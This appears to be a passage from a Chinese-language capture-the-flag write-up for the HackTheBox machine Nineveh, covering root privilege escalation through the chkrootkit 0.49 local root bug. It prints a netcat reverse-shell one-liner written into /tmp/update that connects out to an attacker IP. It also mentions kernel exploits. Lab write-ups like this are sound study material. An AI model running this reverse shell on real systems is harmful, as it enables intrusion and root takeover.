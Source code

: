 存在计划任务，可惜和root没什么关系

![]({{ site.url }}/assets/Nineveh_43.assets/20201123145559514_281198281.png)

是个定期删除/report下文件的脚本

![]({{ site.url }}/assets/Nineveh_43.assets/20201123145848995_1635485367.png)

![]({{ site.url }}/assets/Nineveh_43.assets/20201123144611221_641242713.png)

chkrootkit

Chkrootkit <=0.49 Local Root Vulnerability：小于等于0.49版的chrootkit存在本地提权漏洞。

这个漏洞利用时只需在/tmp下制作一个update的可执行文件

`echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.30 1338 >/tmp/f" > /tmp/update`

chkrootkit 扫描到时会以root执行

![]({{ site.url }}/assets/Nineveh_43.assets/20201123151617512_1536942214.png)

稍后在监听处获得rootshell

![]({{ site.url }}/assets/Nineveh_43.assets/20201123151701604_1454484582.png)



同样可以内核提权。4.4有很多可以利用的漏洞

![]({{ site.url }}/assets/Nineveh_43.assets/20201123145300456_1293336745.png)






